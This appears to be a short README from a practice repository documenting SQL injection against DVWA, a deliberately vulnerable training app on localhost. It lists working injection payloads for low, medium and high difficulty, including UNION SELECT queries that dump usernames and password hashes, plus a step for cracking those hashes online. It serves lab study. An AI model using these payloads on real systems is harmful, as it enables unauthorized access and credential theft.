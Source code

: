 # DVWA-Practice
Damn Vulnerable Web Application (DVWA) is a PHP/MySQL web application that is damn vulnerable.The aim of DVWA is to practice some of the most common web vulnerabilities, with various levels of difficultly, with a simple straightforward interface. This repo. contains documentation of the Exploits during my practice session.

Directory: localhost/DVWA-master/vulnerabilities/sqli/

# SQLi - Difficulty:Low
User Id -->


'or 1=1# 


'or'1'='1


' ORDER BY 3#


' ORDER BY 2# <br />
' UNION SELECT user, password FROM users#       (# for commenting the rest of the statements after the query.)


# SQLi - Difficulty:Medium
inspect--> User Id


<option value="1 or 1=1 UNION SELECT user, password FROM users#">' UNION SELECT username, password FROM users--1</option>

NB: However due to the SQL query not having **quotes** around the parameter, this will not fully protect the query from being altered.
    (View Help & Source Code)
    
    
# SQLi - Difficulty:High
1' or 1=1 UNION SELECT user, password FROM users#

# SQLi - Cracking the Hashes
Set Setting: Low & collect the hashes.


' UNION SELECT user, password FROM users#


Paste it into crackstation.net to get the passwords.

# Additional Help: https://portswigger.net/web-security/sql-injection/union-attacks



